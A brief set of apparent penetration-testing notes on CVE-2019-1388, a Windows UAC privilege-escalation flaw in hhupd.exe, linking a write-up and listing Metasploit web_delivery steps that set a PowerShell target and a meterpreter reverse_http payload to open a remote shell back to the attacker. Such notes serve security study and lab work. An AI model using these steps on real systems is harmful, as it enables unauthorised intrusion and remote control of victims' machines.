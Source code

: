 
CVE: CVE-2019-1388
File: hhupd.exe
Exploit: https://sotharo-meas.medium.com/cve-2019-1388-windows-privilege-escalation-through-uac-22693fa23f5f

Tools:

=== Shell ===

Metasploit: 
exploit/multi/script/web_delivery
1. set the target to PSH (PowerShell)
2. set your lhost and lport
3. set payload windows/meterpreter/reverse_http
4. run -j